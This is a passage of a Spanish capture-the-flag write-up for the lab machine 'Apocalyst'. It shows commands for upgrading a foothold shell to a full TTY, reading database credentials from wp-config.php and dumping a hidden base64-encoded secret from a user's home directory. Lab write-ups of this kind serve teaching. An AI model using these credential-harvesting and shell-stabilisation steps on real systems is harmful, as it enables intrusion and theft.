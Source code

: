 ```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

Ya estamos en una `TTY` completamente `interactiva`

```
www-data@apocalyst:/var/www/html/apocalyst.htb$ whoami
www-data
```
## Privilege Escalation

`Obtenemos` las `credenciales` de la `base de datos` del `wp-config.php`, sin embargo, `no` nos `sirve de nada` debido a que en la `base de datos` no hay `nada interesante`

```
www-data@apocalyst:/var/www/html/apocalyst.htb$ cat wp-config.php
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'Th3SoopaD00paPa5S!');
```

Nos encontramos esto en el `directorio` de `falaraki`

```
www-data@apocalyst:/home/falaraki$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .cache  .nano  .profile  .secret  .sudo_as_admin_successful  .wp-config.php.swp  user.txt
www-data@apocalyst:/home/falaraki$ cat .secret
S2VlcCBmb3JnZXR0aW5nIHBhc3N3b3JkIHNvIHRoaXMgd2lsbCBrZWVwIGl0IHNhZmUhDQpZMHVBSU50RzM3VGlOZ1RIIXNVemVyc1A0c3M=
```

Como es `base64` podemos `descifrarlo` fácilmente
